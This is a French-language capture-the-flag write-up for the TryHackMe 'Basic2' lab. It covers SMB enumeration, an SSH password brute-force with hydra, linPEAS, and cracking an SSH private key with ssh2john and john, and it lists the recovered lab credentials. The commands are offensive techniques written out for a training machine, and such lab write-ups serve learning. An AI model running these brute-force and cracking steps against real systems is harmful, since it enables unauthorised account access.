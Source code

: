 
---

## Write-up – Basic2 (TryHackMe)

### Informations générales

**Adresse IP cible** : `10.10.161.8`  
**Ports ouverts** (scan Nmap) :

- `22/tcp` : SSH  
- `80/tcp` : HTTP  
- `139/tcp` : NetBIOS-SSN  
- `445/tcp` : Microsoft-DS  
- `8009/tcp` : AJP13  
- `8080/tcp` : HTTP proxy  

---

### 1. Enumération SMB

Le partage `Anonymous` est accessible sans authentification :  
```
//10.10.161.8/Anonymous
```

On y trouve une **clé privée SSH chiffrée** (`id_rsa`) ainsi que la clé publique associée.

---

### 2. Enumération des utilisateurs

Utilisation de `enum4linux` pour récupérer les utilisateurs du système via SMB :

```bash
enum4linux -a 10.10.161.8
```

Deux comptes sont identifiés :

- `jan`
- `kay`

---

### 3. Déduction de mot de passe faible pour jan

Un fichier trouvé lors d’un scan avec `dirsearch` indique que l’utilisateur **jan** possède un mot de passe faible.

Bruteforce SSH avec `hydra` :

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.161.8
```

**Mot de passe trouvé** :  
```
jan : armando
```

Connexion SSH réussie :

```bash
ssh jan@10.10.161.8
```

---

### 4. Escalade de privilèges

Exécution de **linPEAS** sur la machine pour identifier des failles :

- Découverte d’une **clé SSH chiffrée** appartenant à `kay` dans `/home/kay/.ssh/id_rsa`.

---

### 5. Crackage de la clé privée SSH

Récupération de la clé privée et conversion en hash avec `ssh2john` :

```bash
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

**Mot de passe trouvé** :  
```
beeswax
```

Connexion SSH à l’utilisateur `kay` :

```bash
ssh -i id_rsa kay@10.10.161.8
```

Lors de la connexion, fournir le mot de passe **`beeswax`** lorsque cela est demandé.

---

### Résumé des credentials

| Utilisateur | Mot de passe |
|-------------|--------------|
| jan         | armando      |
| kay         | beeswax      |

---
